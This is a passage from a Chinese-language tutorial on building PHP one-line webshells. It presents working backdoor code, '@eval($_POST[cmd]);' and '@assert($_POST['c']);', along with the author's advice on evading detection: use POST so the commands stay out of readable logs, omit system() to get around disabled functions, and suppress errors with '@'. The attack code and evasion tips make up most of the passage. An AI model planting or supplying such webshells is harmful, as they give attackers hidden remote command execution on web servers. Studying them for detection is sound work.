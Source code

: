  PHP 中的`超全局变量`(如`$_GET`、`$_POST`、`$_REQUEST`、`$_COOKIE`）获取攻击者的指令输入。

```php+HTML
<?php
//eval(system('date'));
$tmp='system("'.$_GET[cmd].'");';
eval($tmp);

?>
```

![image-20200910192925561](/images/webshell/image-20200910192925561.png)

这里还有点问题：

1. 使用了超全局变量 `$_GET` 来通过 get 方法获取用户的输入命令。但是 GET 方法有一些限制，第一是存在长度限制：特定的浏览器及服务器会对通过 get 方法提交的字符串有一定的限制。第二是当网站管理员查 log 的时候，会看到明文的 get 请求参数，容易被发现，相比之下， post 请求敏感内容不容易被发现。所以最好把 get 方法换成 post 方法。
2. system 函数不应该被写进去。一方面是因为因为有时候 php 中的一些危险函数会被开发者或者网站管理人员禁用，我们可以先不写命令执行函数，攻击的时候可以自行选择更厉害的方法进行绕过。另一方面是写入了 system 这个一句话木马就只能执行命令了，但是不写的话通过使用不同的 payload 一个一句话木马其实啥都能做（就像一句话木马连上菜刀之后的功能），基本跟大马一样。
3. 在 eval 前面可以加一个 `@`，@是忽略可能出现的错误。

因此最后形成的一句话木马：

```php+HTML
<?php
//eval(system('date'));
//$tmp='system("'.$_GET[cmd].'");';
//eval($tmp);
@eval($_POST[cmd]);
?>
```

![image-20200910201443491](/images/webshell/image-20200910201443491.png)

##### assert

assert 这个函数在 php 语言中是用来判断一个表达式是否成立。返回 true or false；assert 函数的参数会被执行，这跟 eval() 类似。

```php+HTML
<?php
//eval(system('date'));
//$tmp='system("'.$_GET[cmd].'");';
//eval($tmp);
//@eval($_POST[cmd]);
assert(system("date"));
?>
```

![image-20200910202300583](/images/webshell/image-20200910202300583.png)

```php+HTML
//post型
<?php
@assert($_POST['c']);
?>
```
